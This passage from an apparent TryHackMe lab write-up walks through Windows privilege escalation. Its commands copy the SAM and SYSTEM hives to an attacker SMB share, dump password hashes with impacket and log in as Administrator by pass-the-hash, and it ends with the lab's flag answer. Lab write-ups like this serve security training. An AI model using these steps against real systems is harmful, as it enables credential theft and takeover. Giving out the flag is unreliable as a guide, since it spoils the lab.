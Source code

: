 ```
Now we need to get it over to your **AttackBox**. We can do by using SMB. We can use impacket’s `smbserver.py` to start a simple SMB server with a network share in the current directory of our AttackBox.
```
mkdir share
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```

Now run the following commands to copy the backups from windows to our **Attackbox**.
```
copy C:\Users\THMBackup\sam.hive \\ATTACKER_IP\public\
copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
```
We can now use impacket to retrieve the users’ password hashes:
```
cd share
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```
![Dumping password hashes with impacket](images/Dumping_password_hashes.png)
Finally, we can do a Pass-the-Hash attack by passing the Administrator hash in the following command (please use the correct hash if it does not fit your results):
```
python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 administrator@Lab_IP
```
![Using a Pass-the-hash attack](images/pass_the_hash_attack.png)
Now we only need to find the flag on the Administrator’s Desktop:
![flag](images/administrator_flag.png)
#### Answer: THM{SEFLAGPRIVILEGE}

## Task 7: Abusing vulnerable software
